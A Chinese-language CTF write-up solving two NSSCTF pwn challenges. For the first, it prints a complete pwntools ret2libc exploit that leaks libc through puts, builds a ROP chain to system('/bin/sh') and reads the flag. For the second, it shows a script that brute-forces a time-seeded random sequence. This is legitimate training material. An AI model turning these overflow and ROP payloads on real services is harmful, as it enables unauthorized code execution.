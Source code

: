 ## NSSCTF[PWN]

### [[2021 鹤城杯\]babyof | NSSCTF](https://www.nssctf.cn/problem/469)

1. 进main函数查看，其中一个函数存在栈溢出，程序没有system而后bin/sh，明显的ret2libc：

   ![image-20240531111622228](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311116268.png)

2. EXP，注意libc版本选择3才能打通：

   ``````python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote("node4.anna.nssctf.cn",28236)
   elf=ELF('./babyof')
   got = elf.got['puts']
   plt = elf.plt['puts']
   main_addr = 0x40066B
   print(hex(got),hex(plt))
   
   pop_rdi_ret = 0x400743
   
   payload = b'a'*(0x40+8)+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   
   p.recv()
   p.sendline(payload)
   
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   
   
   libc = LibcSearcher('puts',addr)
   libcbase = addr - libc.dump('puts')
   sys_addr = libcbase + libc.dump('system')
   str_sh   = libcbase + libc.dump('str_bin_sh')
   print(hex(sys_addr),hex(str_sh))
   
   payload = b'a'*(0x40+8)+p64(0x400506)+p64(pop_rdi_ret)+p64(str_sh)+p64(sys_addr)
   p.sendline(payload)
   p.sendline(b'cat flag')
   p.interactive()
   ``````

   ![image-20240531111749407](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311117470.png)

### [[GDOUCTF 2023\]真男人下120层 | NSSCTF](https://www.nssctf.cn/problem/3663)

1. 题目没给啥溢出的漏洞，nc连接后发现产生的随机数也不固定，所以只能随便拿一个时间戳，按题目的方法生成120的随机数，然后脚本多次连接去碰运气了，time(0)获取当前时间的秒，一共60种情况，也就是60种达成题目要求的方法。

   ![image-20240704094758294](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407040947392.png)

2. 产生一种达成要求的随机数：

   ![image-20240704095202003](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407040952092.png)

   ![image-20240704095213616](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407040952733.png)

3. 最后EXP多次运行即可，运气好一次就能拿到flag：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 
   context(log_level='debug',arch='amd64')
   p = remote("node4.anna.nssctf.cn",28683)
   # p = process("./pwn")
   flag=[]
   table = [2,3,1,3,2,2,1,3,2,2,4,2,1,4,2,2,3,2,1,3,3,2,4,2,4,2,1,1,3,1,1,1,4,2,3,1,3,4,3,4,1,2,1,1,1,3,2,3,4,3,1,3,4,4,4,3,1,1,4,4,1,4,4,4,1,2,4,3,1,2,3,1,3,3,2,3
   ,1,3,1,1,1,1,3,1,4,2,3,1,2,2,4,3,2,3,2,2,4,2,1,1,3,3,1,2,1,2,4,2,1,1,2,1,1,4,1,1,1,4,1,3]
   p.recv()
   count=0
   for i in table:
       count+=1
       print(count)
       p.sendline(str(i).encode())
       p.recv()
   p.recv()
   p.interactive()
   ```

   ![image-20240704095350748](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407040953831.png)



